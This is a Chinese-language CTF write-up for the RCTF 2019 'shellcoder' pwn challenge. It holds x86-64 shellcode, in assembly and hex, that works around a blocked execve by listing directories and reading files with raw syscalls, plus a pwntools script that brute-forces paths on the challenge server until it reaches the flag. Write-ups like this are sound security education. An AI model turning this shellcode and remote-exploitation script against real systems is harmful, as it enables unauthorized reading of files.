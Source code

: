```yaml
---
layout:     post
title:      "Rctf 2019"
date:       2019-05-20
author:     "Ambi9u0us"
catalog: true
tags:
    - ctf
    - Writeup
    - pwn
typora-root-url: ..
---
```


# RCTF 2019 Writeup

## 前言

这次RCTF2019感觉好难，一个原因就在于看了几道题感觉都要会熟练编写使用脚本才行，比如我最终做出来的`shellcoder`，就涉及到一个自动化脚本的编写，而且最后做出来也有一部分的运气因素，真心感觉要学的东西还有很多。

## 题目分析

首先，用IDA分析一下shellcoder，主要函数如下：

![1558319328337](/img/in-post/1558319328337.png)

这个文件主要是调用syscall实现了sys_alarm，sys_read，sys_write，sys_mmap这四个函数。通过sys_mmap创建了一个7字节的空间，后面使用一大段的0xF4来进行截断，然后调用sys_read读取用户输入，通过Jumpto来运行读入的shellcode。

通过调试发现，执行用户输入的shellcode时，除了`rdi`寄存器不为0，其他寄存器都被置0，故构造shellcode的相关汇编代码为：

```assembly
dec edx
xchg rsi,rdi
syscall
```

在当前情境下，这三条代码实现了`sys_read`的功能，这样我们就可以不受长度限制的再次发送shellcode，然后我发送了一段实现execv(‘bin/sh’)的shellcode，发现并没有get shell，猜测服务器上禁用了sys_execve的调用，所以必须换一种方式去获取flag。

这里想到的办法是通过调用sys_open，getdents和sys_write来实现ls的功能，汇编代码参考链接[在此](https://github.com/t00sh/assembly/blob/master/shellcodes/linux/x86-64/ls_syscall.asm)，可以参考该链接处的汇编代码来生成shellcode，生成shellcode的命令为：

```shell
nasm -f bin shellcode.asm -o shellcode && hexdump -v -e '"\\" "x" 1/1 "%02X"' shellcode; echo
```

最后我编写的asm脚本如下：

```assembly
BITS 64
	GLOBAL _start
_start:	
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	xor rax,rax
	mov al, 2
	lea rdi, [rel $ +0x4d] 
	xor rsi, rsi
	xor rdx, rdx
	syscall	
	mov rdi,rax 		
	xor rdx,rdx
	xor rax,rax
	mov dx, 0x120	
	sub rsp, rdx 	
	mov rsi, rsp 	
	mov al, 78 	
	syscall
	xchg rax,rdi
	xor rax, rax
	xor rdi,rdi
	inc eax
	inc edi
	mov rsi, rsp
	syscall
	xor rax, rax
	mov al, 60
	syscall
	xor rax, rax
	xor rdi,rdi
	inc eax
	inc edi
	mov rsi, rsp
	syscall
```

前面的nop是因为第一次实现sys_read后，跳转到达shellcode时前7个字节被覆盖，所以使用nop来保护shellcode被损坏，同时`lea rdi, [rel $ +0x4d]`这一行是学习Defcon ctf 2019的Hotel_California这道题的exp时get到的新姿势，感觉十分好用，其作用就是获取这段shellcode后的字符串起始地址，因为rdi就是这里面sys_open的文件名参数，这样在后面编写脚本的时候就可以愉快的用字符串表示，而不用考虑各种参数压栈时避免\x00字符截断的问题，还不用考虑ASCII码转换，所以最后的python脚本为：

```python
#!usr/bin/env python

from mypwn import *

def dirname(s):
	tt = []
	for i in xrange(24):
		if (s[8*i]=='\x18' and s[8*i+7]=='\x04' and s[8*i+2]!='\x2e'):
			k = s[8*i+2:8*i+6]
			#print k
			tt.append(k)
	return tt
	

code = '''
start:
    dec edx
	xchg rsi,rdi
    syscall
'''
shellcode=asm(code,os="linux",arch="amd64")

payload = '\x90\x90\x90\x90\x90\x90\x90\x90\x48\x31\xC0\xB0\x02\x48\x8D\x3D\x46\x00\x00\x00\x48\x31\xF6\x48\x31\xD2\x0F\x05\x48\x89\xC7\x48\x31\xD2\x48\x31\xC0\x66\xBA\x20\x01\x48\x29\xD4\x48\x89\xE6\xB0\x4E\x0F\x05\x48\x97\x48\x31\xC0\x48\x31\xFF\xFF\xC0\xFF\xC7\x48\x89\xE6\x0F\x05\x48\x31\xC0\xB0\x3C\x0F\x05\x48\x31\xC0\x48\x31\xFF\xFF\xC0\xFF\xC7\x48\x89\xE6\x0F\x05'
a = ['rrfh/lmc5/nswv/o1oc/v1jx','rrfh/lmc5/nswv/1rdr/zkz1','rrfh/lmc5/nswv/1rdr/cx4e','rrfh/lmc5/nswv/1rdr/rr3h','rrfh/lmc5/nswv/1rdr/qce0','rrfh/lmc5/nswv/yojm/rcij','rrfh/lmc5/nswv/yojm/gn5d','rrfh/lmc5/nswv/yojm/wst5','rrfh/lmc5/nswv/yojm/x2u3','rrfh/lmc5/kq2t/gk8t/0mdp']
aaa = 'flag'

f = open('1.txt',"rb+")
f2 = open('2.txt','rb+')
for pp in a:
	p, elf,libc = init_pwn('./shellcoder',('106.52.252.82',20002),'',[0x3ab],True)
	ru(':')
	sn(shellcode)
	p.send(payload+'flag/'+pp+'\x00')
	s = p.recv()
	if aaa in s:
		print pp
		p.close()
		break
	yy = dirname(s)
	if yy == []:
		print "failed"
		p.close()
		continue
	for xx in yy:
		a.append(pp+'/'+xx)
		f.write(pp+',')
		f2.write(",'"+pp+'/'+xx+"'")
	p.close()
f.close()
f2.close()
```

emmm，感觉非常不优雅，由于我写的这个脚本是采取广搜的方式不断找出各个路径名，但是这样导致的问题就是过多的socket交互会加重服务器地负担，所以现实情况就是每运行一小段时间就会被服务器断开连接，所以才有了脚本中我设置地两个文件`1.txt`和`2.txt`，前者用来记录已经查找过的路径，后者用来记录新生成的路径，所以我还是在手动解决问题，而且还是爆破，然后由于我一开始就是选择的rrfh这个文件夹，跑了一段时间后，在后面又好运地选到了脚本中我写入数组a中的路径，所以后面再使用这个脚本跑地时候，几分钟就跑出了结果，找到了最终地flag路径`flag/rrfh/lmc5/nswv/1rdr/zkz1/pim9/flag`，真是不容易。

再使用sys_open，sys_read，sys_write，就可以编写具有cat功能的asm脚本：

```assembly
BITS 64
	GLOBAL _start
_start:	
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	xor rax,rax
	xor rdx,rdx
	xor rsi,rsi

	;because after the shellcode is filename in shellcode2.py
	lea rdi, [rel $ +0x29]
	push 1
	pop rdx
	xor esi, esi
	push 2
	pop rax
	syscall
	mov rdi, rax
	xor eax, eax
	mov rsi, rsp
	push 0x7f
	pop rdx
	syscall
	mov rdx, rax
	push 1
	pop rax
	mov rdi, rax
	syscall
	;nasm -f bin shellcode.asm -o shellcode && hexdump -v -e '"\\" "x" 1/1 "%02X"' shellcode; echo
```

同样的shellcode后面要自己加上要读取的文件相对路径名，最后得到flag：

`rctf{1h48iegin3egh8dc5ihu}`

## 后记

根据官方的公告，这道题并不需要就行爆破多次交互，只需要发送一段足够健壮的shellcode就行，也就是说这些遍历搜索的功能应该在shellcode中就实现，这应该才是优雅的解决方式，无奈我的shellcode编写水平还是有限，所以第一时间还是选择了使用python脚本爆破，实在是😓。